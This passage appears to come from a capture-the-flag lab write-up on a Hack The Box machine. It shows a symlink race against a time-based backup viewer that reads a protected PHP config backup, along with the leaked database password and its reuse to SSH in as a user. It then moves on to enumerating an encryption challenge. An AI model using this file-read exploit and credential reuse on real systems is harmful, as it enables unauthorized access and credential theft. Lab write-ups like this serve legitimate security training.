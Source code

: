 So I'll try to read `/var/backups/config.php.bak`:

```bash
ln -s /var/backups/config.php.bak $(date | cut -d ' ' -f4 | tr -d $'\n' | md5sum | cut -d ' ' -f1) ; /usr/bin/backup 
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet, 
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 16:37:00
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

We have a password: `db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704`, and we can ssh as pain with this password.

```bash
ssh pain@10.10.10.183
```

### Enumerating as pain

In the home directory there's a note:

```
cat note.txt 
Pain, even though they got into our server, I made sure to encrypt any important files and then did some crypto magic on the key... I gave you the key in person the other day, so unless these hackers are some crypto experts we should be good to go.

-chiv
```

Listing the content of the `encryptorinator` directory we have this two files:

```bash
ls -la
total 16
drwxr-xr-x 2 pain root 4096 Mar 24  2020 .
drwxr-xr-x 7 pain pain 4096 Mar 17  2020 ..
-rw-r--r-- 1 pain root  165 Jun  3  2019 ciphertext
-rw-r--r-- 1 pain root  931 Jun  3  2019 encrypter.py
```
